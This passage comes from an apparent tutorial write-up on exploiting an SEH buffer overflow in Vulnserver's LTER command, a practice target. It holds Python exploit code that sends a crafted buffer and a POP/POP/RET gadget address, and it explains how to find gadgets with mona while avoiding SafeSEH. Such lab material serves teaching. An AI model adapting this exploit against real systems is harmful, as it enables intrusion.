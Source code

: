 ``` python
    fd.sendall(PAYLOAD)
```

And check it:

<div class="imgblock">

![Pattern OK](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331204/blog/vulnserver-lter-seh/pattern2_fqkl7b.gif)

</div>

Great. If we trigger the exception handler, we will overwrite `EIP`.

<div class="imgblock">

![Pattern OK](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331200/blog/vulnserver-lter-seh/eip1_fld56r.webp)

</div>

The stack window (bottom right) shows that our buffer is 8 bytes below
the stack pointer `ESP`, so we need to find a `POP/POP/RET` sequence on
the executable modules of Vulnserver that makes us land directly over
the `nSEH` field which we now control. `mona` can help us:

<div class="imgblock">

![POP POP RET](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331202/blog/vulnserver-lter-seh/poppopret1_fi3zbt.webp)

</div>

We instructed `mona` to find `POP/POP/RET` gadgets (`seh`) and exclude
pointers with null bytes (`-cp nonull`), those with `SafeSEH` enabled
(`-cp safeseh=off`) and not belonging to the OS (`-o`). That gave us 12
pointers.

Let’s use the first in the list (`625010B4`) to replace our `B` buffer:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    # 625010B4    5B                          POP EBX
    # 625010B5    5D                          POP EBP
    # 625010B6    C3                          RETN
    struct.pack('<L', 0x625010B4) +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
